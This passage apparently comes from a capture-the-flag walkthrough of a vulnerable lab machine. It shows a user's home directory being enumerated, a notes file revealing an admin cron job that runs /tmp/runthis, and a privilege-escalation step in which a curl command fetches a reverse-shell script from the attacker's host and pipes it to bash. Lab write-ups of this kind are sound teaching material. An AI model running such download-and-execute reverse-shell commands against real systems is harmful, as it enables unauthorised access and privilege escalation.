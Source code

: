 There are many files in eezeepzs's home directory .

```console
bash-4.1$ cd /home/eezeepz
bash-4.1$ ls 
MAKEDEV    chown        hostname  netreport       taskset     weak-modules
cbq        clock        hwclock   netstat         tc          wipefs
cciss_id   consoletype  kbd_mode  new-kernel-pkg  telinit     xfs_repair
cfdisk     cpio         kill      nice            touch       ypdomainname
chcpu      cryptsetup   killall5  nisdomainname   tracepath   zcat
chgrp      ctrlaltdel   kpartx    nologin         tracepath6  zic
chkconfig  cut          nameif    notes.txt       true
chmod      halt         nano      tar             tune2fs
```

The notes.txt file contains a message that we can use the binaries specifying the full path **/usr/bin/** or **/home/admin/**, we can write our commands ia a file called **runthis** in /tmp directory, a cron job is working behind this.

```console
bash-4.1$ cat notes.txt
Yo EZ,

I made it possible for you to do some automated checks, 
but I did only allow you access to /usr/bin/* system binaries. I did
however copy a few extra often needed commands to my 
homedir: chmod, df, cat, echo, ps, grep, egrep so you can use those
from /home/admin/

Don't forget to specify the full path for each binary!

Just put a file called "runthis" in /tmp/, each line one command. The 
output goes to the file "cronresult" in /tmp/. It should 
run every minute with my account privileges.

- Jerry
```

## Privilege Escalation
### Cron Job

A cron job with admin permissions is running, we can see it by listing the processes.

```console
bash-4.1$ ps auxwe | grep admin
ps auxwe | grep admin
admin     2063  0.0  0.7 115048  3768 ?        Ss   03:59   0:00 /usr/bin/python /home/admin/cronjob.py
```

To get a shell as the user **admin**, I created the **runthis** file with a curl command that downloads our bash reverse shell and executes it, and finally I give it execute perisssions.

```console
bash-4.1$ echo '/usr/bin/curl 192.168.179.1:8000/getadmin | bash' > /tmp/runthis
bash-4.1$ chmod +x /tmp/runthis
```
